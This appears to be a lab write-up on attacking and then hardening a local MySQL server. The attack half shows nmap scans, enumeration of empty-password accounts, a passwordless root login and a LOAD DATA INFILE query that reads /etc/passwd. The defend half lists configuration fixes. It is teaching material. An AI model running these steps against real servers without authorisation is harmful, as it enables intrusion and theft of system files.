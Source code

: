 # Attack

## Ping Target Server

```bash
ping -c4 local.server
```

## Port Scans

```bash
nmap -sV -Pn local.server
```

## Port Scans

```bash
nmap -sV -Pn local.server

// output

PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
3306/tcp open  mysql         MySQL 8.0.31-0ubuntu0.20.04.1
3389/tcp open  ms-wbt-server xrdp
5910/tcp open  vnc           VNC (protocol 3.8)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Nmap MySQL Enumeration

```bash
nmap -p3306 --script mysql-enum local.server

// output

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-enum: 
|   Valid usernames: 
|     root:<empty> - Valid credentials
|     test:<empty> - Valid credentials
|     web:<empty> - Valid credentials
|     user:<empty> - Valid credentials
|     netadmin:<empty> - Valid credentials
|     sysadmin:<empty> - Valid credentials
|     administrator:<empty> - Valid credentials
|     webadmin:<empty> - Valid credentials
|     admin:<empty> - Valid credentials
|     guest:<empty> - Valid credentials
|_  Statistics: Performed 10 guesses in 1 seconds, average tps: 10.0
```

## Check Issues As Attacker

### Access MySQL

```bash
mysql -h local.server -u root --skip-password
```

### Verify for password policy

We verify that there is string password policy by creating a new user with weak password:

```sql
show databases;
select user, host from mysql.user;
create user 'sammy@localhost' identified by 'pass';
```

### Check Arbitrary File Read

We see that MySQL server has arbitrary file read vulnerability:

```sql
LOAD DATA INFILE "/etc/passwd" INTO TABLE test.tab;
select * from test.tab;
```

# Defend

## Patch Arbitrary File Read Vuln.

```bash
nano /etc/mysql/my.cnf
```

Comment out: 

```
#secure-file-priv = ""
```

## Change Default MySQL Service Port

```bash
sed -i 's/3306/22360/g' /etc/mysql/mysql.conf.d/mysqld.cnf
```

## Enable Password Complexity Policy

Open:

```bash
nano /etc/mysql/my.cnf
```

Add the line or uncomment existing line:

```
plugin-load-add=validate_password.so
```

## Drop 'test' DB

```sql
drop database test;
```

## Obfuscate root Account

```sql
drop user 'root'@'%';
```
